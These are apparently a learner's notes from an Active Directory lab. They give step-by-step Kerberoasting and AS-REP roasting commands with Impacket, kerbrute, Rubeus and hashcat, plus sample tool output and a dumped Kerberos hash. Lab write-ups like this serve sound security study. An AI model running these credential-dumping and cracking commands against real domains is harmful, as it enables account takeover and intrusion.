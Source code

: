 Usage:

```bash
user@machine$ cd /usr/share/doc/python3-impacket/examples/
user@machine$ sudo python3 GetUserSPNs.py DOMAIN.DOMAIN/USERNAME:PASSWORDD -dc-ip <DC_IP> -request
user@machine$ sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.217.22 -request
# This will dump the hash, you can then crack with hashcat
user@machine$ hashcat -m 13100 -a 0 hash.txt rockyou.txt
```

## AS-REP Roasting with Rubeus
AS-REP involves dumping `krbasrep5 hashes` of user accounts, it is effective against any users that have pre-authentication disabled. Unlike `kerberoasting`, these users do not have to be service accounts. The only requirement for the account is that pre-authentication is disabled.

Find valid accounts:
```shell
$ /home/kali/Tools/kerbrute_linux_amd64 userenum --dc services.thm -d services.local users.txt
```
Where `users.txt` contains usernames.

Other tools exist for this such as `[GetNPUsers.py](<http://GetNPUsers.py>)` from `Impacket`. Rubeus is easier because it automatically finds `AS-REP Roastable users`.

To use `GetNPUsers`:
```shell
$ impacket-GetNPUsers services.local/ -usersfile users.txt
```
Where `services.local` (REALM) points to the DC IP in `/etc/hosts`.
This will give you hash which you can crack with hash cat

During pre-authentication, the user’s hash will be used to encrypt a timestamp that the DC will attempt to decrypt to validate that the right hash is being used and is not replaying a previous request. After validation, the KDC will issue a TGT for the user. **If pre-authentication is disabled, you can request any authentication data for any user and the KDC will return an encrypted TGT that can be cracked offline - no validate that the requester is legitimate.**

### Dumping Hashes
Run the Rubeus AS-REP roast command looking for vulnerable users and then dump found hashes.

```bash
C:\\>Rubeus.exe asreproast
...
[*] Searching path 'LDAP://CONTROLLER-1.CONTROLLER.local/DC=CONTROLLER,DC=local' for AS-REP roastable users
[*] SamAccountName         : Admin2
[*] DistinguishedName      : CN=Admin-2,CN=Users,DC=CONTROLLER,DC=local
[*] Using domain controller: CONTROLLER-1.CONTROLLER.local (fe80::754d:c944:e9ba:9281%5)
[*] Building AS-REQ (w/o preauth) for: 'CONTROLLER.local\\Admin2'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$Admin2@CONTROLLER.local:9CC612CBEF3DCB2409489D1E95A0E94A$2C3558AFAD56
      40606CE5AC1F781C27D75D584F4EA70CFF624DE57557CF65C768ED700C02BD206946AC27FC8AF144
...
```
